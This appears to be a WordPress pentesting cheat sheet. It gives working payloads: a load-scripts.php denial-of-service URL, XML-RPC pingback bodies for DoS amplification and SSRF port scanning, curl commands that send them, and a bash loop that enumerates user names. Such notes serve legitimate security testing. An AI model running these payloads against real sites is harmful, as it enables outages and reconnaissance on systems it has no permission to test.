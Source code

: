 +++
title = "Wordpress Security"
date = '2022-11-20'
description = 'Common misconfigurations, risky default settings, major mistakes, and general methodologies that are useful when pentesting/bug hunting/auditing wordpress websites.'
+++

## Wordpress Tools:
 - [https://github.com/wpscanteam/wpscan](WPScan) - One of the better tools at it's just.
 -- gem install wpscan
 -- docker pull wpscanteam/wpscan
 -- wpscan --update # updates the database
 -- Users of pentesting distrobutions generally should install the version from their repository.
 - [https://github.com/nullfil3/xmlrpc-scan](https://github.com/nullfil3/xmlrpc-scan)
 - [https://github.com/relarizky/wpxploit](https://github.com/relarizky/wpxploit)

## Wordpress Tricks:

### load-scripts.php denial of service
`load-scripts.php` resource exhaustion
**Wordpress versions 4.9.3** and prior:
```
/wp-admin/load-scripts.php?load=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```

### Check IP behind Cloudflare
[https://blog.nem.ec/2020/01/22/discover-cloudflare-wordpress-ip/](https://blog.nem.ec/2020/01/22/discover-cloudflare-wordpress-ip/)
Get the IP address of a target wordpress website by abusing the ping-back feature

## Testing xml-rpc on all Wordpress versions
[https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)

### pingback.xml (can be used for DoS and potential to zombie into a DDoS)
```
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
 <param>
  <value>
   <string>http://10.0.0.1/hello/world</string>
  </value>
 </param>
 <param>
  <value>
   <string>https://10.0.0.1/hello/world/</string>
  </value>
 </param>
</params>
</methodCall>
```

### WordPress xml-rpc.php SSRF (internal/local port scan)
Easy example would be to check a port that needs to be open or is generally open internally

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<TARGET-TO-SCAN>:<PORT-TO-CHECK></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

### Lsist available methods through xml-rpc
```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

`curl -X POST -d @pingback.xml https://exmaple.com/xmlrpc.php`

### Check for presence of xmlrpc
`curl -d '<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>demo.sayHello</methodName><params/></methodCall>' -k https://example.com/xmlrpc.php`

### xml-rpc.php tool
 - [https://github.com/nullfil3/xmlrpc-scan](https://github.com/nullfil3/xmlrpc-scan)


### Enumerate users
```
for i in {1..50}; do curl -s -L -i https://example.com/wordpress?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}'; done
```
[https://site.com/wp-json/wp/v2/users/](https://site.com/wp-json/wp/v2/users/)


### Common Misconfigurations:
- Often admins will forget to disable directory listing even for sensitive directories (plugins/themes/etc.. worth checking, I always try /wp-content/uploads/ hoping for directory listing)
- wp-cron.php denial of service: If they're running any kind of older WP then wp-cron runs every time a web page is loaded. For sites make use of several plugins or poorly coded plugins or even just things that take a while to complete (rebuilding cache?), a flood of requests can cause the wp-cron.php method to take the site down..
